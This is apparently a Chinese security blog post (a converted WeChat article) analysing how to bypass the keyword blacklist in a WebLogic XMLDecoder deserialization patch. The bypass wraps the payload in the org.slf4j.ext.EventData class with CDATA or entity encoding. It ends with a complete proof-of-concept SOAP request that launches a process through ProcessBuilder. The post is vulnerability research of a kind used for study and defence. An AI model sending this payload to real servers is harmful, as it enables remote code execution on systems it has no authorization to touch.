 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LOGvLr_FLB2ddTFgmiosYQ)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCyl366iay4K5ERNs7f0qlStzkgkUkclSLaL6U69L4640RRJicU97VuFUfQg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

前言

在对大佬们高版本的 POC 进行分析后，我把重点放在了如何绕过黑名单限制上，那么利用 XML 可以解析的其它编码格式尝试一下绕过。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

补丁回顾

首先回顾一下这个经典的补丁截图，摘自：

http://www.sd.edu.cn/info/1011/1131.htm

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCylvgWPsqH3YZHKZmBvscaDublNNV83ufUzEeZ1gnyfLQEZN6jYoIIicLA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCylZero09CWFOphp6S5Nxg2SsOYGzOoQzgEsk0R9LNkjJA431d8OUu9eA/640?wx_fmt=jpeg)

可以看到对 object、new、method 关键字做了限制，而且对于 array 数组的长度也做了限制，不得大于 10000。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

高版本 POC 分析

现在网上也公开了 12.1.3 版本的 POC，利用 org.slf4j.ext.EventData 类进行反序列化操作，这个类的构造方法如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCyl5ediaWecc3xsrWc9Z8y0lTpz9FODgYAFd24zoSd76PCkyTVIbMV95JQ/640?wx_fmt=jpeg)

可以看到这个类需要接收一个 XML 的字符串，那么 POC 构造如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCylCXDa9PdPIZqS3zFKwLgVWUicjzGNIjY2dNST8KRfmtgJ4Z1QoQ8HdLQ/640?wx_fmt=jpeg)

那前面也看到了补丁限制了一些关键字，而需要解析的 XML 恰好含有这些关键字，绕过的思路就是整个的 XML 字段真的当作一个字符串传入，CDATA 包含的字符串正好可以作为 XML 文本去解析。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

绕过思路扩展

说到这里大家可能就明白了，只要是 XML 能够解析的编码格式都可以一试，此时想起了前不久看到的《WAF Bypass 之 xerces 解析》，这篇文章对 XML 的解析格式进行了分析，其中一种简便快捷的方式就是 HTML 实体编码，欸，讨巧了，直接尝试将 org.slf4j.ext.EventData 类的构造参数用实体编码传入试一下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCyl8Jbiadkxs89s55c7SJMNVQkrfASyA3zWbfkVdC7nzEXOBDcEZic8AYbw/640?wx_fmt=jpeg)

很快啊，计算器啪地一下就弹出来了

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb64ZtgHYiac20ny2grO9vCylPz5wuD4jro6HWeusZ7252LOicoSCHFR9xaZxzRAsHEe0oV77nZ6KiakQ/640?wx_fmt=png)

POC 如下：

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.188.130:7001
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: /
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 1946

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">

<java><class><string>org.slf4j.ext.EventData</string><void><string><java version="1.8.0_131" class="java.beans.XMLDecoder"><object class="java.lang.ProcessBuilder"><array class="java.lang.String" length="1"><void index="0"><string>calc</string></void></array><void method="start" /></object></java></string>
</void></class>
</java>
</work:WorkContext>
</soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>

```

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

总结

应该还有其它的编码绕过，希望有时间去搞吧。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

参考链接

https://blog.csdn.net/weixin_30408739/article/details/99877655  
https://xz.aliyun.com/t/7116  
https://www.anquanke.com/post/id/209826  
http://www.sd.edu.cn/info/1011/1131.htm

（点击 “阅读原文” 查看链接）

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)
----------------------------------------------------------------------------------------------------------------------------------------------

  

- End -  

精彩推荐

[Apache Flink CVE-2020-17518/17519 漏洞分析](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649738409&idx=1&sn=8910884f83f3b266e3f828efb88eccbb&chksm=888cfcc6bffb75d0aea5a577b39f08efb13d3ae934087d62d1ba593453d14dbf9a21f66d5c57&scene=21#wechat_redirect)  

[关公面前耍大刀？利用色情反向链接威胁网站运营商](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649738345&idx=1&sn=01d46373a51e0e9de09eec667ff9757e&chksm=888cfc06bffb75103c2f315b42803d28abf1798516ae19046bc2e2ade61ad9b4192e4a2bcaf5&scene=21#wechat_redirect)  

[SolarLeaks 网站声称将出售 SolarWinds 攻击中的被盗数据](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649738349&idx=1&sn=e1c39c7eaf6c0a4d54dc55bd50b159b3&chksm=888cfc02bffb75140badb8fc1977f6480ee485717e1dcd824b34b1c580ce081936f4f04b2dfc&scene=21#wechat_redirect)  

[Google CTF justintime](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649738334&idx=1&sn=eaff208e8c52894078702b66665239f7&chksm=888cfc31bffb75279e5637f831f507d9d606f975d3cc34343e044e35d757ce054ce95eea71f3&scene=21#wechat_redirect)

  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb5ZMeq0JBK8AOH3CVMApDrPvnibHjxDDT1mY2ic8ABv6zWUDq0VxcQ128rL7lxiaQrE1oTmjqInO89xA/640?wx_fmt=gif)  

---------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**